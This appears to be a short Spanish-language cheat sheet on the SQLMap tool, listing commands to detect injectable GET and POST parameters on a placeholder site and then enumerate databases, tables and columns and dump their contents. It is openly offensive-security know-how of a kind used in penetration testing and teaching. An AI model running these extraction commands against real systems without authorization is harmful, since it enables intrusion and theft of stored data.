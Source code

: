 
# SQLMap
SQLMap es una herramienta de explotación de inyecciones SQL. Ayuda a detectar y explotar inyecciones SQL en aplicaciones web.

[Repositorio oficial](https://github.com/sqlmapproject/sqlmap)
[Wiki con ejemplos](https://github.com/sqlmapproject/sqlmap/wiki/Usage)


# Detectar inyecciones SQL
## Analizar URLs 
Detectar parámetros inyectables en parametros GET
```bash
sqlmap -u "http://example.com/?id=1" 
```

También se podría utilizar la opción `-p` para indicar el parámetro a analizar.
```bash
sqlmap -u "http://example.com/" -p "id" 
```

O como no, para métodos POST
```bash
sqlmap -u "http://example.com/" --data "id=1" 
```


# Explotar inyecciones SQL

Obtener información de la base de datos
```bash
sqlmap -u "http://example.com/?id=1" --dbs
```

Obtener tablas de la base de datos
```bash
sqlmap -u "http://example.com/?id=1" -D "database" --tables
```

Obtener columnas de una tabla
```bash
sqlmap -u "http://example.com/?id=1" -D "database" -T "table" --columns
```

Obtener datos de una tabla
```bash
sqlmap -u "http://example.com/?id=1" -D "database" -T "table" -C "column1,column2" --dump
```

Obtener datos de todas las tablas
```bash
sqlmap -u "http://example.com/?id=1" -D "database" --dump-all
```



